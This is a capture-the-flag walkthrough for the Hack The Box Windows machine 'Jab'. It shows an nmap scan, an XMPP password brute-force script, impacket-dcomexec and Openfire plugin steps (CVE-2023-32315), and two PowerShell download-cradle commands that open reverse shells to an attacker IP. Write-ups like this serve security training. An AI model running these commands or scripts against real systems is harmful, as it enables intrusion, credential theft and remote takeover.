








<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Jab</b></p>
    <p style="font-size:20px;">Windows • <font color="#fbaf3f">Medium</font></p>
  </div>
</div>

## Nmap

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 04:15 EDT
Warning: 10.10.11.4 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.4
Host is up (0.084s latency).
Not shown: 65495 closed tcp ports (conn-refused)
PORT      STATE    SERVICE             VERSION
53/tcp    open     domain              Simple DNS Plus
88/tcp    open     kerberos-sec        Microsoft Windows Kerberos (server time: 2024-06-25 08:17:00Z)
135/tcp   open     msrpc               Microsoft Windows RPC
139/tcp   open     netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open     ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-06-25T08:18:23+00:00; +1s from scanner time.
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-06-25T08:18:23+00:00; +1s from scanner time.
2025/tcp  filtered ellpack
3268/tcp  open     ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-25T08:18:23+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
3269/tcp  open     ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Not valid before: 2023-11-01T20:16:18
|_Not valid after:  2024-10-31T20:16:18
|_ssl-date: 2024-06-25T08:18:23+00:00; +1s from scanner time.
5222/tcp  open     jabber
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 7etzg97vqk
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   RPCCheck: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5223/tcp  open     ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     xmpp: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
5262/tcp  open     jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: 5zgt24c5cp
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
5263/tcp  open     ssl/unknown
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
5269/tcp  open     xmpp                Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     xmpp: 
|     errors: 
|       (timeout)
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
5270/tcp  open     ssl/xmpp            Wildfire XMPP Client
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
5275/tcp  open     jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     features: 
|     unknown: 
|     errors: 
|       invalid-namespace
|       (timeout)
|     stream_id: xm8kzbwfk
|     auth_mechanisms: 
|     xmpp: 
|       version: 1.0
|     compression_methods: 
|_    capabilities: 
5276/tcp  open     ssl/unknown
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:stream>
|_ssl-date: TLS randomness does not represent time
5985/tcp  open     http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7070/tcp  open     realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 25 Jun 2024 08:17:00 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 25 Jun 2024 08:17:05 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
7443/tcp  open     ssl/oracleas-https?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 25 Jun 2024 08:17:06 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></font></body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 25 Jun 2024 08:17:12 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help: 
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq: 
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
| ssl-cert: Subject: commonName=dc01.jab.htb
| Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
| Not valid before: 2023-10-26T22:00:12
|_Not valid after:  2028-10-24T22:00:12
|_ssl-date: TLS randomness does not represent time
7777/tcp  open     socks5              (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9389/tcp  open     mc-nmf              .NET Message Framing
13539/tcp filtered unknown
26854/tcp filtered unknown
47001/tcp open     http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc               Microsoft Windows RPC
49665/tcp open     msrpc               Microsoft Windows RPC
49666/tcp open     msrpc               Microsoft Windows RPC
49667/tcp open     msrpc               Microsoft Windows RPC
49671/tcp open     msrpc               Microsoft Windows RPC
49674/tcp open     ncacn_http          Microsoft Windows RPC over HTTP 1.0
49675/tcp open     msrpc               Microsoft Windows RPC
49676/tcp open     msrpc               Microsoft Windows RPC
49681/tcp open     msrpc               Microsoft Windows RPC
49777/tcp open     msrpc               Microsoft Windows RPC
55100/tcp open     msrpc               Microsoft Windows RPC
55199/tcp open     msrpc               Microsoft Windows RPC
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5222-TCP:V=7.94SVN%I=7%D=6/25%Time=667A7D0F%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5263-TCP:V=7.94SVN%T=SSL%I=7%D=6/25%Time=667A7D22%P=x86_64-pc-linux
...
SF:eams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-streams\
SF:"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5276-TCP:V=7.94SVN%T=SSL%I=7%D=6/25%Time=667A7D22%P=x86_64-pc-linux
...
SF:eams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-streams\
SF:"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7070-TCP:V=7.94SVN%I=7%D=6/25%Time=667A7CFB%P=x86_64-pc-linux-gnu%r
...
SF:ength:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</
SF:h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.94SVN%T=SSL%I=7%D=6/25%Time=667A7D01%P=x86_64-pc-linux
...
SF:tent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-25T08:18:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 168.34 seconds
```

## XMPP (Extensible Messaging and Presence Protocol)

I also noticed something called `X11Probe`, and looking online I found this:
> X11Probe is a specific Nmap script used to interact with and gather information from X11 (X Window System) servers.

This error message suggests that the target system responded with an error typically associated with `XMPP (Extensible Messaging and Presence Protocol)` rather than an X11 server response.
> XMPP is an open XML technology for real-time communication, which powers a wide range of applications including instant messaging, presence and collaboration.

I found [this website](https://jabber.at/clients/) mentions some clients we could use. We will be using `Pidgin`.





There we find the following rooms:\


I wasn't able to access room `test`, but in `test2` we find a user `bdavis`.

### User bdavis password bruteforce

We can try to login as them, maybe they have access to more chats.

I tried a few wordlists, but they didn't seem to work. Password wordlists tend to be in all lower case, so at last I tried modifying `rockyou.txt` to capitalize the first letter of each password:
```bash
$ awk '{print toupper(substr($0,1,1)) tolower(substr($0,2))}' /usr/share/wordlists/rockyou.txt > rockyou-capital-first.txt
```

I found how to use nmap for this task with this command `nmap -p 5222 --script xmpp-brute --script-args userdb=user.txt,passdb=/usr/share/wordlists/rockyou.txt jab.htb`, but for some reason it kept stopping after only 4 guesses. Because of that, I used the following scipt to bypass this:
```sh
#!/bin/bash

target="jab.htb"
username="bdavis"
concurrent_jobs=10

# Create a temporary user file with the static username
user_file=$(mktemp)
echo "$username" > "$user_file"

# Function to perform nmap xmpp bruteforce with a password
run_nmap() {
    local password="$1"
    local password_file=$(mktemp)
    echo "$password" > "$password_file"
    echo "Trying username: $username | password: $password"
    result=$(nmap -p 5222 --script xmpp-brute --script-args userdb=$user_file,passdb=$password_file $target 2>&1)
    rm -f "$password_file"
    
    if echo "$result" | grep -q "Valid credentials"; then
        echo "Success! Valid credentials found: $username | $password"
        pkill -P $$
        exit 0
    fi
}

export -f run_nmap
export user_file
export target
export username

# Read passwords from the file and run nmap in parallel
cat rockyou-capital-first.txt | xargs -I {} -P $concurrent_jobs bash -c 'run_nmap "$@"' _ {}

echo "No valid credentials found."
```

After that I finally got the credentials I wanted: `bdavis:Welcome1`

Loging in, we do find another room:\


There we find this cracked user:password pair `svc_openfire:!@#$%^&*(1qazxsw`.

## Active Directory

At the beginning I'd tried checking for null and Guest access on `SMB` services, but I had no luck, perhaps these credentials can be helpful.

```bash
$ crackmapexec smb 10.10.11.4 -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' --shares
SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw 
SMB         10.10.11.4      445    DC01             [+] Enumerated shares
SMB         10.10.11.4      445    DC01             Share           Permissions     Remark
SMB         10.10.11.4      445    DC01             -----           -----------     ------
SMB         10.10.11.4      445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.4      445    DC01             C$                              Default share
SMB         10.10.11.4      445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.4      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.4      445    DC01             SYSVOL          READ            Logon server share 
```

Again, nothing too useful since we have no write permissions...

We could try to use `impacket-dcomexec` to gain reverse shell, using the information in [this article](https://medium.com/@iamkumarraj/exploring-impacket-dcomexec-enhancing-active-directory-attack-capabilities-a9663d383703):

```bash
$ impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd.exe /c "powershell iex (New-Object Net.WebClient).DownloadString(\"http://10.10.14.95/Invoke-PowerShellTcp.ps1\");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.95 -Port 4444"' -silentcommand
```



We find the user flag in `C:\Users\svc_openfire\Desktop\user.txt`.

## Openfire

### Openfire found and active

Looking around, we find that `Openfire` is indeed running on the server:
```powershell
PS C:\windows\system32> dir 'C:\Program Files'

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/23/2023  12:12 PM                Common Files                                                          
d-----         1/8/2024  10:58 AM                internet explorer                                                     
d-----       10/23/2023   1:00 PM                Java                                                                  
d-----         2/1/2024   7:55 AM                Mozilla Firefox                                                       
d-----         2/1/2024   8:32 AM                Openfire                                                              
d-----       10/23/2023  12:12 PM                VMware                                                                
d-----         1/8/2024  10:58 AM                Windows Defender                                                      
d-----         1/8/2024  10:58 AM                Windows Defender Advanced Threat Protection                           
d-----         1/8/2024  10:58 AM                Windows Mail                                                          
d-----         1/8/2024  10:58 AM                Windows Media Player                                                  
d-----        9/15/2018   3:19 AM                Windows Multimedia Platform                                           
d-----        9/15/2018   3:28 AM                windows nt                                                            
d-----         1/8/2024  10:58 AM                Windows Photo Viewer                                                  
d-----        9/15/2018   3:19 AM                Windows Portable Devices                                              
d-----        9/15/2018   3:19 AM                Windows Security                                                      
d-----        9/15/2018   3:19 AM                WindowsPowerShell

PS C:\windows\system32> netstat -an | findstr 127.0.0.1
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:49691        127.0.0.1:49692        ESTABLISHED
...                
  UDP    127.0.0.1:64404        *:*

PS C:\windows\system32> wget http://127.0.0.1:9090/ -UseBasicParsing

StatusCode        : 200
StatusDescription : OK
Content           : <html>
                    <head><title></title>
                    <meta http-equiv="refresh" content="0;URL=index.jsp">
                    </head>
                    <body>
                    </body>
                    </html>
                    
RawContent        : HTTP/1.1 200 OK
                    Accept-Ranges: bytes
                    Content-Length: 115
                    Content-Type: text/html
                    Date: Thu, 27 Jun 2024 16:57:00 GMT
                    Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
                    
                    <html>
                    <head><title></title>
                    <...
Forms             : 
Headers           : {[Accept-Ranges, bytes], [Content-Length, 115], [Content-Type, text/html], [Date, Thu, 27 Jun 2024 
                    16:57:00 GMT]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : 
RawContentLength  : 115
```

### Openfire tunneling

We can't really access `Openfire` on `Jab`, so we will try to tunnel the service on port `9090` to our machine.\
We will be using [this guide for chisel](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/).

We get chisel, and set up a server to move it to `Jab`:
```bash
$ wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
$ gzip -d chisel_1.9.1_windows_amd64.gz
$ chmod +x chisel_1.9.1_windows_amd64
$ sudo python3 -m http.server 80
```

```bash
$ chisel server --reverse --port 9002
```

```powershell
PS C:\tmp> curl 'http://10.10.14.95/chisel_1.9.1_windows_amd64' -o C:\tmp\chisel.exe
PS C:\tmp> .\chisel.exe client 10.10.14.95:9002 R:9090:127.0.0.1:9090
```

Now we can access `Openfire` by opening `127.0.0.1:9090` on our kali machine.\


Here we can also see that our user is admin:\


### Plugin exploit

We can upload a Plugin `.jar` file, and we'll be using [miko550's jar file for this exploit](https://github.com/miko550/CVE-2023-32315):



We follow the rest of the instructions by going to \
`Server > Server Settings > Management tool`\
And login with password `123`.

Now we can get reverse shell through the `system command`.

Again we set up a server and netcat listener, and execute the command `powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.95/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.95 -Port 4000`.

And now we can get the root flag in `C:\Users\Administrator\Desktop\root.txt`.
